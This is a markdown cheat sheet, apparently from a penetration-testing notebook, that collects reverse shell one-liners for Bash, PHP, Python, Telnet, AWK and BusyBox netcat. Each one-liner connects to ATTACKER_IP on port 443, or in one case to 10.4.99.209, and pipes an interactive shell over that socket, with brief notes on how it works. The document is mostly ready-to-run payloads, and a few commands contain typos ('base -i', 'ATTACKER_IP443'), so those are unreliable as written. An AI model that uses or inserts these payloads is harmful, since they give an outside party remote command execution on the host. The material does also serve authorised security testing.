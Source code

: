 ```yaml
---
description: >-
  A command or script that exposes the shell to an incoming connection in the
  case of a bind shell or send connection in the case of a reverse shell.
---
```


# Shell Payloads

## Bash

#### Normal Reverse Shell

```sh
base -i >& /dev/tcp/<ATTACKER_IP>/<port> 0>&1
```

* `>&` combines stdin and stdout

#### Bash Read Line Reverse Shell

{% code overflow="wrap" %}
```sh
exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```
{% endcode %}

This reverse shell creates a new file descriptor (`5` in this case)  and connects to a TCP socket. It will read and execute commands from the socket, sending the output back through the same socket.

#### Base with File descriptor 196 Reverse Shell

```sh
0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196 
```

This reverse shell uses a file descriptor (`196` in this case) to establish a TCP connection. It allows the shell to read commands from the network and send output back through the same connection.

#### Bash With File Descriptor 5 Reverse Shell

```sh
bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```

Similar to the first example, this command opens a shell (`bash -i`), but it uses file descriptor `5` for input and output, enabling an interactive session over the TCP connection.

***

## PHP

#### PHP reverse shell using the exec function

```sh
php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");' 
```

This reverse shell creates a socket connection to the attacker's IP on port `443` and uses the `exec` function to execute a shell, redirecting standard input and output.

#### PHP Reverse Shell Using the shell\_exec Function

```sh
php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```

#### PHP Reverse Shell Using the system Function

```sh
php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");' 
```

This reverse shell employs the `system` function, which executes the command and outputs the result to the browser.

#### PHP Reverse Shell Using the passthru Function

```sh
php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```

The `passthru` function executes a command and sends raw output back to the browser. This is useful when working with binary data.

#### PHP Reverse Shell Using the popen Function

```sh
php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");' 
```

This reverse shell uses `popen` to open a process file pointer, allowing the shell to be executed.

***

## Python

#### Python Reverse Shell by Exporting Environment Variables

{% code overflow="wrap" %}
```sh
export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' 
```
{% endcode %}

This reverse shell sets the remote host and port as environment variables, creates a socket connection, and duplicates the socket file descriptor for standard input/output.

#### Python Reverse Shell Using the subprocess Module

{% code overflow="wrap" %}
```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' 
```
{% endcode %}

This reverse shell uses the `subprocess` module to spawn a shell and set up a similar environment as the Python Reverse Shell by Exporting Environment Variables command.

#### Short Python Reverse Shell

{% code overflow="wrap" %}
```sh
python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```
{% endcode %}

This reverse shell creates a socket (`s`), connects to the attacker, and redirects standard input, output, and error to the socket using `os.dup2()`.

***

## Others

#### Telnet

```shell
TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF
```

This reverse shell creates a named pipe using `mkfifo` and connects to the attacker via Telnet on IP `ATTACKER_IP` and port `443`.&#x20;

#### AWK

{% code overflow="wrap" %}
```shell
awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
{% endcode %}

This reverse shell uses AWK’s built-in TCP capabilities to connect to `ATTACKER_IP:443`. It reads commands from the attacker and executes them. Then it sends the results back over the same TCP connection.

```shell
busybox nc ATTACKER_IP 443 -e sh
```

This BusyBox reverse shell uses Netcat (`nc`) to connect to the attacker at `ATTACKER_IP:443`. Once connected, it executes `/bin/sh`, exposing the command line to the attacker.\
